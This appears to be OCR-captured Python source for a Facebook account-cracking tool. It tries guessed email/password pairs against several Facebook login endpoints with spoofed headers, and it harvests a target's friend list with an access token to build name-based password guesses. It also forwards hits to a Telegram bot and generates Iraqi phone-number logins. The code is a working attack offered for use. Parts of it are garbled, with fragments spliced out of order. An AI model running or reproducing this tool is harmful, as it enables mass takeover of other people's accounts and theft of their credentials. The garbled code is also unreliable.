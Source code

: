 ua_windows = 'Mozilla/5.0 (X11; U; Linux i686; fr-FR; rv:1.7.8) Gecko/20050511 Firefox/1.0.4;]'
        ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 11; Mi 9T Pro Build/RKQ1.200826.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/94.0.4606.80 Mobile Safari/537.36 Reddit/Version 2021.38.0/Build 365032/Android 11 [FBAN/EMA;FBLC/en_US;FBAV/247.0.0.5.130;]'
        return [ua_intelmac,ua_nokia,ua_asus,ua_huawei,ua_vivo,ua_oppo,ua_samsung,ua_windows,ua_xiaomi]

class login: 
    def api1(em,pas):
        r = requests.Session()
        useragent=random.choice(user_agent.UG())
        header = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)),"x-fb-sim-hni": str(random.randint(20000, 40000)),"x-fb-net-hni": str(random.randint(20000, 40000)),"x-fb-connection-quality": "EXCELLENT","x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA","user-agent": useragent,"content-type": "application/x-www-form-urlencoded","x-fb-http-engine": "Liger"}
        response = r.get('https://b-api.facebook.com/method/auth.login', params={'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'json', 'sdk_version': '2', 'email': em, 'locale': 'en_US', 'password': pas, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig':'3f555f99fb61fcd7aa0c44f58f522ef6'}, headers=header)
        if 'session_key' in response.text and 'EAAA' in response.text:return({"status":"GOOD","email":em,"pass":pas})
        elif 'www.facebook.com' in response.json()['error_msg']:return({"status":"CHECKPOINT","email":em,"pass":pas})
        else:return({"status":"ERROR","email":em,"pass":pas})
    def api2(em,pas):
        ses = requests.Session()
        useragent=random.choice(user_agent.UG())
        headers_ = {"Host":"free.facebook.com","upgrade-insecure-requests":"1","user-agent":useragent,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://free.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
        p = ses.get('https://free.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text
        dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":em,"flow":"login_no_pin","pass":pas,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}
        _headers = {"Host":"free.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://free.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 4.4.4; en-au; SAMSUNG SM-N915G Build/KTU84P) AppleWebKit/537.36 (KTHML, like Gecko) Version/2.0 Chrome/34.0.1847.76 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://free.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
        po = ses.post("https://free.facebook.com/login/device-based/validate-password/?shbl=0", data =
 dataa, if "c_user" in ses.cookies.get_dict():return({"status":"GOOD","email":em,"pass":pas})
        elif 'checkpoint' in ses.cookies.get_dict():return({"status":"CHECKPOINT","email":em,"pass":pas})
        else:return({"status":"ERROR","email":em,"pass":pas})
    def api3(em,pas):
        br.set_handle_robots(False)
        br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time = 1)
        useragent=random.choice(user_agent.UG())
        br.addheaders = [('user-agent',useragent)]
        data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +str(em)+ '&locale=en_US&password=' + str(pas) + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
        q = json.load(data)
        if 'access_token' in q:return({"status":"GOOD","email":em,"pass":pas})
        elif 'www.facebook.com' in q['error_msg']:return({"status":"CHECKPOINT","email":em,"pass":pas})
        else:return({"status":"ERROR","email":em,"pass":pas})

class main:
    def idclone(self):
        print(f'''{lightblack} -------------------------------V3-{white}''')
        T_ID=input(' Token ( Fb ) : ')
        print(f'''{lightblack} ----------------------------------{white}''')
        T_FB=input(' Target ID : ')
        print(f'''{lightblack} ----------------------------------{white}''')
        id=[]
        try:
            API=requests.get(f'https://graph.facebook.com/{T_FB}?fields=friends.limit(5001)&access_token={T_ID}').json()
            for i in API['friends']['data']:
                name=str(i['name']).split(' ')[0]
                idd=i['id']
                l=f'''{idd}:{name}111
{idd}:{name}1234
{idd}:{name}12345
{idd}:{name}123456
{idd}:1234512345
{idd}:123456123456
{idd}:1122334455
{idd}:112233445566
{idd}:{name}12
{idd}:{name}1234567
{idd}:{name}12345678
{idd}:{name}123456789
{idd}:{name}12345678910'''
                id.append(str(l))
            print('  Has been collect all ID :)')
            token=input(' Token ( Telegram BOT ) : ')
            id=input(' Telegram ID : ')
            TOKEN.clear()
            TOKEN.append(token)
            ID.clear()
            ID.append(id)
            print('\n  Please wait a few hours...')
            print(f'''{lightblack} ----------------------------------{white}''')
            TH=Pool(25)
            TH.map(run.loop,id)
        except:
            print('Your token doesn\'t work')
            input('\n Enter to Return:-')
            self.GO()
        input('\n Enter to Return:-')
        self.GO()
            
    def Nrandom(self):
        print(f'''{lightblack} ----------------------------------{white}''')
        print('  0770 - 0771 - 0772 - 0773 - 0774')
        print('  0750 - 0751 - 0752 - 0753 - 0754')
        print('  0780 - 0781 - 0782 - 0783 - 0784')
        print(f'''{lightblack} ----------------------------------{white}''')
        N=input(' Choice : ')
        if N=='0770' or N=='770':self.NUM='0770'
        elif N=='0771' or N=='771':self.NUM='0771'
        elif N=='0772' or N=='772':self.NUM='0772'
        elif N=='0773' or N=='773':self.NUM='0773'
        elif N=='0774' or N=='774':self.NUM='0774'
        elif N=='0750' or N=='750':self.NUM='0750'
        elif N=='0751' or N=='751':self.NUM='0751'
        elif N=='0752' or N=='752':self.NUM='0752'
        elif N=='0753' or N=='753':self.NUM='0753'
        elif N=='0754' or N=='754':self.NUM='0754'
        elif N=='0780' or N=='780':self.NUM='0780'
        elif N=='0781' or N=='781':self.NUM='0781'
        elif N=='0782' or N=='782':self.NUM='0782'
        elif N=='0783' or N=='783':self.NUM='0783'
        elif N=='0784' or N=='784':self.NUM='0784'
        else:
            self.logo()
            print(f'''{lightblack} -------------------------------V3-{white}=_headers, allow_redirects = False)
